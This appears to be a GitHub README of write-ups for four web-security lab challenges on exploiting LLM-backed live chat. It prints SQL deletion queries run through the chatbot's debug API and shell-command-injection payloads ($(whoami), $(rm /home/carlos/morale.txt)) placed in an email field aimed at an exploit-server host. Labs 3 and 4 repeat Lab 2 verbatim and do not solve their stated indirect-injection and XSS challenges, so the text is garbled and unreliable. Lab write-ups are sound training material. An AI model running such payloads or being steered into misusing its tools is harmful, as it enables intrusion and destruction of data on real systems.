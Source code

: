 # LLM-Security-Labs

## Lab 1: Exploiting LLM APIs with excessive agency

### Challenge
To solve the lab, use the LLM to delete the user `carlos`.

### My Approach
- To visit the `LiveChat` Web page.
- According to the challenge description and LLM's nature, they are exposed to some APIs.
- I use prompt engineering to gather details regarding the same and ask about APIs and their respective arguments `Debug_SQL_API` and `SQLcommand string`.
- Now, I call the `Debug_SQL_API` with the the SQL Comand `SELECT * FROM USERS` which returns the respective information regarding the user like name, password, etc.
- Sweet, I query the same API but with a different args `DELETE FROM users WHERE username='carlos'` which forces the LLM to access the API, run my SQL query and delete the respective user.

**CHALLENGE SOLVED**
![LLMSec1](https://github.com/user-attachments/assets/38cca6c6-2787-4693-80be-ca9b472338df)

## Lab 2: Exploiting vulnerabilities in LLM APIs

### Challenge
This lab contains an OS command injection vulnerability that can be exploited via its APIs. You can call these APIs via the LLM. To solve the lab, delete the `morale.txt` file from Carlos's home directory.

### My Approach
- To visit the `LiveChat` Web page.
- According to the challenge description and LLM's nature, they are exposed to some APIs which can lead to command injection vulnerabilities.
- I use prompt engineering to gather details regarding the same and ask about APIs and their respective arguments like `product_info`, `password_reset`, `subscribe_to_newsletter (args - emailaddress)`.
- I did call the `subscribe_to_newsletter` with arg `attacker@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` to recieve an email on **EMAIL CLIENT** web page.
- We can use the email address for RCE `$(command to execute)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
- Now, time to test and play with the LLM and gather infromation `$(whoami)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` hich returned `carlos` as the output for the command.
- Similarly, for `$(pwd)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` and `$(ls)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` which returns `/home/carlos` and `morale.txt`, respectively.
- Now is the time to delete the file and solve the challenge by `$(rm /home/carlos/morale.txt)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`
  
**CHALLENGE SOLVED**
![LLMSec2](https://github.com/user-attachments/assets/e55a6f59-385a-460f-9164-aa87b86a095f)

## Lab 3: Indirect prompt injection

### Challenge
This lab is vulnerable to indirect prompt injection. The user `carlos` frequently uses the live chat to ask about the Lightweight "l33t" Leather Jacket product. To solve the lab, delete `carlos`.

### My Approach
- To visit the `LiveChat` Web page.
- According to the challenge description and LLM's nature, they are exposed to some APIs also succeptible to prompt injection.
- I use prompt engineering to gather details regarding the same and ask about APIs and their respective arguments like `product_info`, `password_reset`, `subscribe_to_newsletter (args - emailaddress)`.
- I did call the `subscribe_to_newsletter` with arg `attacker@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` to recieve an email on **EMAIL CLIENT** web page.
- We can use the email address for RCE `$(command to execute)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
- Now, time to test and play with the LLM and gather infromation `$(whoami)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` hich returned `carlos` as the output for the command.
- Similarly, for `$(pwd)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` and `$(ls)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` which returns `/home/carlos` and `morale.txt`, respectively.
- Now is the time to delete the file and solve the challenge by `$(rm /home/carlos/morale.txt)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`
  
**CHALLENGE SOLVED**

![LLMSec3](https://github.com/user-attachments/assets/cc359355-d86d-45a0-a2c5-7ef628679f5d)
![LLMSec4](https://github.com/user-attachments/assets/2905e17c-acec-44f6-a66c-1f643e969116)

## Lab 4: Exploiting insecure output handling in LLMs

### Challenge
This lab handles LLM output insecurely, leaving it vulnerable to XSS. The user carlos frequently uses the live chat to ask about the **Lightweight "l33t" Leather Jacket** product. To solve the lab, use indirect prompt injection to perform an XSS attack that deletes `carlos`.

### My Approach
- To visit the `LiveChat` Web page.
- According to the challenge description and LLM's nature, they are exposed to some APIs which can lead to command injection vulnerabilities.
- I use prompt engineering to gather details regarding the same and ask about APIs and their respective arguments like `product_info`, `password_reset`, `subscribe_to_newsletter (args - emailaddress)`.
- I did call the `subscribe_to_newsletter` with arg `attacker@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` to recieve an email on **EMAIL CLIENT** web page.
- We can use the email address for RCE `$(command to execute)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
- Now, time to test and play with the LLM and gather infromation `$(whoami)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` hich returned `carlos` as the output for the command.
- Similarly, for `$(pwd)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` and `$(ls)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net` which returns `/home/carlos` and `morale.txt`, respectively.
- Now is the time to delete the file and solve the challenge by `$(rm /home/carlos/morale.txt)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`
  
**CHALLENGE SOLVED**
